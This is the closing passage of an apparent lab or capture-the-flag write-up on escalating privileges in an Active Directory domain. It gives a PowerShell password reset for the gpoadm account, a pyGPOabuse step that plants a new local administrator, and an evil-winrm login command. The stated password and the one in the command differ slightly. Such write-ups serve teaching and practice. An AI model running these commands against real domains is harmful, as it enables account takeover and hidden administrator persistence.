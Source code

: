Changing `gpoadm`'s password:
```
Set-ADAccountPassword -Identity 'CN=GPOADM,OU=GPO-MANAGEMENT,DC=BABY2,DC=VL' -Reset -NewPassword (ConvertTo-SecureString -AsPlainText "Password1@" -Force)
```
After owning the `gpoadm` user, I could use `pyGPOabuse` using the ID of gpos, to create a new administrator account and use `evil-winrm` to log in:

![[Pasted image 20240917211306.png]](../img/11.png)
This tool created a new local administrator with the user `john` and the password of `Hax00r123..`
```
evil-winrm -i 10.10.68.49 -u john -p H4x00r123..
```
![[Pasted image 20240917223306.png]](../img/12.png)
Thank you for reading my blog post and I will see you in the next one !
